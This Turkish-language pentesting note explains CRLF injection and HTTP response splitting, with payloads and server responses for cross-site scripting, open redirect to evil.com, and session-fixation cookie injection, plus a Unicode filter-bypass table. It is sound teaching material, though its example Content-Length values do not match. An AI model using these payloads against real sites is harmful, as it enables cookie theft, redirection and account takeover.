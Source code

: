 # CRLF Nedir?
CRLF Injection, saldırganın HTTP başlıklarına CRLF karakterleri (\r\n) enjekte edebilmesi durumunda ortaya çıkar. Bu durum, HTTP Response Splitting'e yol açabilir. Bir web uygulaması, HTTP başlıklarını oluştururken kullanıcı girdisini kullanıyorsa. Saldırgan, bu girdiyi manipüle ederek ek başlıklar enjekte edebilir veya HTTP yanıtını bölebilir. Bu durum şu güvenlik risklerine yol açabilir:

- Cross-Site Scripting (XSS): İkinci yanıta kötü amaçlı script ekleme.
- Cache Poisoning: Yanlış içeriğin önbelleğe alınmasını sağlama.
- Header Manipulation: Başlıkları değiştirerek kullanıcıları veya sistemleri yanıltma.

# Cross-Site Scripting
CRLF injection ile en kolay istismar yöntemi, sayfanın gövdesini (body) yeniden yazmaktır. Bu teknik javascript kodu çalıştırmak için kullanılabilir.

Örnek istek:
```url
%0D%0AContent-Length%3A%200%0A%20%0AHTTP/1.1%20200%20OK%0AContent-Type%3A%20text/html%0ALast-Modified%3A%20Mon%2C%2027%20Oct%202060%2014%3A50%3A18%20GMT%0AContent-Length%3A%2034%0A%20%0A%3Cscript%3Ealert(document.cookie)%3C/script%3E
```

Sunucu yanıtı:
```http
HTTP/1.1 200 OK
Content-Type: text/html
Last-Modified: Mon, 27 Oct 2060 14:50:18 GMT
Content-Length: 39
 
<script>alert(document.cookie)</script>
```

# Open Redirect
Kullanıcı girdisi, Location header’ında kullanılıyorsa, CRLF enjekte edilerek saldırgan yeni bir Location header ekleyebilir.

Örnek istek:
```url
%0D%0ALocation:%20https://evil.com
```

Sunucu yanıtı:
```http
HTTP/1.1 302 Found
Location: /normal-path
Location: https://evil.com
```

# Cookie Injection ve Session Fixation
Set-Cookie header’ında kullanıcı girdisi kontrolsüz kullanılıyorsa, saldırgan yeni cookie başlıkları enjekte edebilir.

Örnek istek:
```http
%0D%0ASet-Cookie:%20aASP.NET_SessionId=doonz8hcdquy72tkvfflqy34d;
```

Sunucu yanıtı:
```
Set-Cookie: ASP.NET_SessionId=doonz8hcdquy72tkvfflqy34d;
```

Bu durumda saldırgan, kullanıcının tarayıcısına kendi belirlediği sessionid değerini yazdırarak Session Fixation saldırısı gerçekleştirebilir. Kullanıcı bu session ID ile oturum açtığında, saldırgan aynı oturumu kullanarak hesabı ele geçirebilir (Account Takeover).

# Filter Bypass
RFC 7230, çoğu HTTP başlık alanı değerinin yalnızca US-ASCII karakter setinin bir alt kümesini kullanması gerektiğini belirtir.

| UTF-8 Character | Hex | Unicode | Stripped |
| --------- | --- | ------- | -------- |
| `嘊` | `%E5%98%8A` | `\u560a` | `%0A` (\n) |
| `嘍` | `%E5%98%8D` | `\u560d` | `%0D` (\r) |
| `嘾` | `%E5%98%BE` | `\u563e` | `%3E` (>)  |
| `嘼` | `%E5%98%BC` | `\u563c` | `%3C` (<)  |

# HTTP/2 ve HTTP/3 Neden Daha Güvenli
- HTTP/2 ve HTTP/3, header’ları binary frame formatında taşır.
- \r\n gibi ASCII karakter dizileriyle header sonlandırma mantığı yoktur.
- Bu yüzden klasik CRLF injection ile header yapısını bozamazsın.
- Ancak HTTP/1.1 fallback aktifse, hala risk vardır.

Referanslar:
- https://www.insecure.in/crlf-injection-attack
- https://www.invicti.com/learn/crlf-injection/
- https://playbook.sidthoviti.com/web-app-pentesting/crlf-injection
